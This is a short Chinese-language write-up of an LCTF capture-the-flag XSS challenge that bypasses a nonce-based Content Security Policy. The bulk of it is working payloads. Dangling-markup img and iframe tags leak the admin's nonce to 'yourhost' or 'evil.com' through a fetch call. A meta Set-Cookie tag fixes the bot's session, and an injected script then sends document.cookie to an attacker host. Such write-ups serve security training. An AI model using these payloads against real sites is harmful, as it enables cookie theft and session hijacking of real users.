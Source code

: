 ## writeup 

**这是LCTF的一道题目**

常规的xss，但是有 csp 保护，script-src 有 nonce,需要绕过nonce的限制。

做题思路有两个：
1. 获取nonce，就可以执行任意的javascript了
2. 修改原有的nonce，改成自己已知的值 

### 解法一 

利用dangling markup attack 来获取页面信息。 传入一个未闭合的标签，来把后面内容通过请求直接发出去，因为bot的版本是Chrome60所以可以直接用一个比较常见的payload

#### 第一种payload

```html
<img src='http://yourhost/?key=
```
这样因为<img>标签里的src未单引号闭合所以会把后面的html代码也当做src属性的一部分直到遇到下一个单引号，所以我们可以拿到管理员的nonce

```php 
<?php echo file_get_contents('loghehehaha.txt');?>
<p>comment here</p>
<script nonce="<?=$nonce;?>">var test='test';</script>
```

#### 第二种payload

```html
<iframe src='//evil.com/evil.html' name='
```
**evil.com/evil.html的内容**
```html
<script>
fetch('//evil.com/?p='+escape(name))
</script>
```

### 解法二 

因为这题的nonce是根据session生成的，所以我们可以用<meta>标签来Set-Cookie，把bot的PHPSESSID设置成我们的，这样bot的nonce就和我们的一样。可以通过preview.php拿到我们的nonce。

**Payload**

```html
<meta http-equiv="Set-Cookie" content="PHPSESSID=yoursession; path=/">
<script nonce="yournonce">(new Image()).src='http://yourhost/?cookie='+escape(document.cookie)</script>
```





